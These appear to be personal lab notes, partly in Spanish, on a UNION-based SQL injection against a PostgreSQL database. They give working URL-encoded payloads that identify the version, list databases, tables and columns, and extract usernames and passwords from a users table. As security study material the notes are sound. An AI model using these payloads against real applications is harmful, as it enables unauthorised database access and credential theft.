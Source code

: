 ```sql
'+UNION+SELECT+version(),version()+--+-
```

![[Pasted image 20241222232405.png]]

**Postgress found**

https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

**Extraer los nombres de las bases de datos**

```SQL
'+UNION+SELECT+datname,'a'+FROM+pg_database+--+- 
```

![[Pasted image 20241222233208.png]]

**Listar nombre de las tablas**

```SQL
SELECT table_schema, table_name
FROM information_schema.tables
WHERE table_type = 'BASE TABLE' AND table_schema NOT IN ('pg_catalog', 'information_schema');
```

![[Pasted image 20241222233949.png]]

**Listar nombre de las columnas**

``` SQL
SELECT column_name, data_type, is_nullable
FROM information_schema.columns
WHERE table_schema = 'public' AND table_name = 'nombre_tabla';
```

![[Pasted image 20241222234829.png]]

```SQL

'+UNION+SELECT+column_name,data_type+FROM+information_schema.columns+WHERE+table_schema+=+'public'+AND+table_name+=+'users_pssqck'+--+-
```


**Listar datos**

```SQL
'+UNION+SELECT+username_wbpptu,password_uvrxkv+FROM+users_pssqck+--+- 
```

![[Pasted image 20241222235101.png]]
